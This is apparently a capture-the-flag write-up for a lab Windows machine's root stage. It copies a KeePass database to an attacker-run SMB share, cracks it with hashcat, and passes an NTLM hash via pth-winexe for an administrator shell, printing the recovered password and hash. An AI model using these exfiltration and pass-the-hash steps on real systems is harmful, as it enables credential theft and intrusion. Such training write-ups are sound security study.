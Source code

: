 # Getting Root


* Found Key Pass Data Base in :
![[Pasted image 20211114053714.png]]


Create a smb server on the local machine to receive the file CEH.kdbx

```bash
$ sudo impacket-smbserver giveitem `pwd`
```

On victim machine create a drive
```powershell
New-PSDrive -Name "JojoHere" -PSProvider "FileSystem" -Root "\\10.10.14.21\giveitem"
```
![[Pasted image 20211114064234.png]]

* Victim connecting on our drive
![[Pasted image 20211114064351.png]]


![[Pasted image 20211114064837.png]]

![[Pasted image 20211114064905.png]]

### Cracking CEH.kdbx
```bash
$ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48

```

hashcat
```bash
hashcat -m 13400 jeeves.keepass /usr/share/wordlists/rockyou.txt 
```
Password: moonshine1
![[Pasted image 20211114065830.png]]

### Using KeePass2 to open database
![[Pasted image 20211114070447.png]]

Creds: administrator:S1TjAtJHKsugh9oC4VZl
![[Pasted image 20211114070612.png]]


NTLM HASH: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
![[Pasted image 20211114070818.png]]


### PassTheHash via pth-winexe to gain administrator shell
```bash
$ pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

Hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
![[Pasted image 20211114071601.png]]


* File inside of another file (Data Stream) (ntfs Attribute, can only read on windows)
![[Pasted image 20211114072504.png]]

Get content of data stream file
```powershell
powershell (Get-Content hm.txt -Stream root.txt)
```

